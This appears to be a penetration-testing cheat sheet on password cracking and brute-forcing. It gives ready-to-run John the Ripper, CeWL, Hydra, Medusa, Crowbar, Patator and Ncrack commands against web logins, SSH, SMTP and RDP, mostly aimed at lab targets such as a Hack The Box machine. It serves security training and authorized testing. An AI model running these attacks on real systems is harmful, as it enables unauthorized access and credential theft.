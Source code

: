 ﻿### Custom Wordlists
Html2dic can sometimes work better and faster than Cewl.
```
curl http://example.com > example.txt
```
then run

```
html2dic example.txt
```
Or you can use Cewl with a minimum word length of 4 here and mangle it with John.
```
cewl -m 4 -w dict.txt http://site.url
john --wordlist=dict.txt --rules --stdout
```

### John

So to crack passwords normally with john
```
john --wordlist=wordlist.txt dump.txt
```
Adds the default john rules
```
john --rules --wordlist=wordlist.txt dump.txt
```

When you have Linux passwd and a shadow file to crack, run this

```
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
john --rules --wordlist=wordlist.txt unshadowed.txt
```

### Hydra, Patator, Medusa, Crowbar 

Hydra post form example from Nineveh on Hackthebox.
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^&Login=Login:Invalid Password" -V -I
```
Medusa http authentication example
```
medusa -h $TARGET -u admin -P passwords.txt -M http -m DIR:/admin -T 10
```
Crowbar brute root user with all SSH keys in a folder
```
crowbar.py -b sshkey -s 192.168.2.105/32 -u root -k /root/.ssh/
```

SSH password brute Patator syntax
```
patator ssh_login host=10.10.10.10 user=FILE0 password=FILE1 0=user.txt 1=wordlist.txt -x ignore:mesg='Authentication failed.'
```
SMTP Patator syntax
```
patator smtp_login host=192.168.17.129 user=Ololena password=FILE0 0=/usr/share/john/password.lst
patator smtp_login host=192.168.17.129 user=FILE1 password=FILE0 0=/usr/share/john/password.lst 1=/usr/share/john/usernames.lst
patator smtp_login host=192.168.17.129 helo='ehlo 192.168.17.128' user=FILE1 password=FILE0 0=/usr/share/john/password.lst 1=/usr/share/john/usernames.lst
patator smtp_login host=192.168.17.129 user=Ololena password=FILE0 0=/usr/share/john/password.lst -x ignore:fgrep='incorrect password or account name'
```

Ncrack RDP
```
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```



